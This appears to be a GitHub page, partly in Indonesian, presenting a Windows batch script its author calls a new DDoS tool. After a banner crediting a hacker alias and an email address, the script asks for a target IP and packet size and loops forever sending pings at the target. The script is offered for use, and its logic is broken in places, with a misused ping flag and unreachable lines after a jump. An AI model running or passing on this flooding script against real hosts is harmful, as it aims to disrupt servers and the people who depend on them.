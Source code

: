 # Slow
Liburan adalah alat DDOS versi terbaru yang saya kembangkan
@echo off

mode 67,16

title DDOS Attacking Server

color 0c

cls

echo ==================================

echo =          Hacking Tools         =

echo ==================================

echo.

echo ++++++++++++++++++++++++++++++++++

echo + Name : DDOS Attacking Server   +

echo + Author : Mr. S1M4M0R4            +

echo + Contact : davidceaser5@gmail.com +

echo ++++++++++++++++++++++++++++++++++

echo.

goto Next

echo.

echo DDOS With Batchfile

echo.

set /p x=Server-Target:

echo.

ping %x%

@ping.exe 127.0.0.1 -n 5 -w 1000 > nul

goto Next

:Next

echo.

echo **********************************

echo *    Masukan IP / Host Target    *

echo **********************************

echo.

set /p m=ip Host:

echo.

set /p n=Packet Size:

echo.

:DDOS

color 0b

echo Attacking Server %m%

ping %m% -i %n% -t >nul

goto DDOS
